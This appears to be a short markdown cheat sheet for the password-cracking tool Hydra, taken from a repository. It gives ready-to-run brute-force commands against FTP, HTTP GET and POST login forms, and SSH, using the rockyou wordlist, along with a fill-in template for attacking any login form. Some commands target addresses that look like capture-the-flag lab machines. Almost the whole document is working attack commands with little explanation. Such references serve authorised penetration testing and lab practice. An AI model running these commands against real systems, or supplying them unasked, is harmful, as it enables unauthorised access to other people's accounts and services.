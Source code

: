 ```yaml
---
title: Hydra 🐍
---
```

## Brute force ftp

````shell
hydra -l user -P passwords.txt ftp://<target-ip>
````

## Hydra for http form:

```shell
hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -s 80 IP_HOST http-head

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```

## Brute force ssh:

- Use it when you can perform a redirection of the traffic to the ssh port but you have modified the configuration from the inside with socat

```shell
hydra -l USER -P /usr/share/wordlists/rockyou.txt ssh://IP_VICTIM:PORT
```

## Brute force login form:

```shell
hydra -L USERFILE -P PASSWORDFILE DOMAIN/IP METHOD "REDIRECTIONURL:PARAMETERS:FAILMESSAGE:H=COOKIES"
```

